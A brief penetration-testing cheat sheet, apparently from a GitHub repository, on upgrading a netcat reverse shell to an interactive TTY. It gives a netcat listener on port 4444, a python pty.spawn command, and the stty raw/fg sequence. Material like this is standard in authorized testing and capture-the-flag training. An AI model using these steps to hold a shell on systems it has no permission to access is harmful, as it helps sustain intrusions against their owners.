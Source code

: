 # Spawn Python TTY Shell

*Use this to create an interactive shell when using netcat*

```bash
nc -lnvp 4444
```
```bash
python -c 'import pty;pty.spawn("bash")'
```
```
^Z # Ctrl-Z
```
```bash
stty raw -echo
```
```
fg
```